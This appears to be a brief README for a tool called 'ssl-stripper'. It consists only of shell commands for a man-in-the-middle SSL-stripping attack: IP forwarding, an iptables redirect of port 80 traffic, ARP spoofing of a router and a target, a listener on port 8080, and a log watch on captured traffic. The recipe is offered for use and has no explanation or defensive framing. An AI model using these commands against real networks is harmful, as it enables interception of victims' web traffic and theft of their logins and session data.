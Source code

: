 # ssl-stripper

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

```
arpspoof -i eth0 -t <router ip> -r <target ip>
arpspoof -i eth0 -t <target ip> -r <router ip>
```

```
ssl -l 8080
```

```
tail -f sslstrip.log
```
